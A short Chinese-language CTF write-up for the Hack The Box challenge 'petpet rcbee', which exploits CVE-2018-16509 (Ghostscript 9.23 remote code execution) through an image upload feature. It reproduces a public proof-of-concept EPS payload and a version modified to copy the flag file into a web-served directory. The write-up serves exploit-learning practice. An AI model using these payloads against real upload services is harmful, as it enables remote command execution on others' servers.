


## 結論

練習：CVE-2018-16509

(ghostscript-9.23 RCE)

## 想法

1. 看網站有的功能對看他的 source code

像是這題就是要去看上傳功能

2. 看一下網站的組成 (這題就是看 Dockerfile)

## 打開網站

是一個給你上傳的頁面



## 漏洞

抓檔案下來，可以看到 Dockerfile 有 `ghostscript-9.23`

google 一下 `ghostscript-9.23 exploit`

會找到一個 github ：https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509

所以就直接用這個漏洞即可

## 作法

因為程式碼是有提供的，所以如下圖，知道 FLAG 在 `/app/flag` ，印出來即可



底下是 github 的 poc
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```

改一下

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe% cat /app/flag >> /app/application/static/assets/flag) currentdevice putdeviceprops
```

## 參考

- [[HTB] petpet rcbee](https://1dayluo.github.io/post/htb-petpet-rcbee/)